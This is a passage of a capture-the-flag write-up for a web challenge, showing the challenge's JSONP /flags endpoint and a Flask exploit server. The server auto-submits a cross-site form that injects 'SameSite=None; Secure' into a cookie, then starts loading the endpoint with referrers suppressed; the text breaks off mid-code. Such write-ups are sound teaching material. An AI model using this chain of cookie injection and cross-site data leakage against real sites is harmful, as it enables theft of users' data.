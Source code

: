 ```javascript
})

app.get('/flags', sameOrigin, function (req, res) {
        if (req.cookies.passcode !== process.env.PASSCODE) return res.sendStatus(403)
        res.jsonp({category: 'flags', items: [process.env.FLAG]})
})

app.listen(7331)

```

We can notice that we have to find a way to load the /flags jsonp endpoint so we have to bypass firstly the sameOrigin middleware check and find a way to send the passcode cookie in the cross origin request. The first check about sameOrigin is easy to bypass if we set 
**referrer-policy** to **no-referrer**, the problem is the second part about cookies because the default behaviour of chrome is to set the SameSite attribute to lax if no SameSite attribute is specified which prevents sending cookies in cross origin requests ( More [Details](https://www.chromium.org/updates/same-site/faq) ).
 
We can notice that we have a possible injection in  Set-Cookie response header so we can inject **;SameSite=None; Secure** in order to permit cookies to be sent in cross site requests. There is a little piece missing which is how to send the post request in order to inject the SameSite attribute,  the idea here is to opt to **Lax + POST mitigation** which enables the cookie to be sent on a top-level cross-site POST request as you can see in the link provided.

Let's recapitulate , our chain will be as following:

First we send a post request to /passcode from a top level window in order to inject **;SameSite=None; Secure** then we call script tag with a src as **/flags** and referrer-policy set to no-referrer, This was my final exploit:

```python

from flask import Flask
import time

app = Flask(__name__)

@app.route('/delay')
def delay():
        time.sleep(9)
        return "zeu"

@app.route('/form')
def form():
        return """
<html>
<body>
<form method='post' id='hack' action='https://jason.2021.chall.actf.co/passcode'>
<input type='text' name='passcode' value=';SameSite=None; Secure'>
</form>
<script>
document.getElementById('hack').submit();
</script>
</body>
</html>
"""

@app.route('/flag')
def flag():
        return """
<html>
<meta name='referrer' content='no-referrer'> 
<body>
<script>
```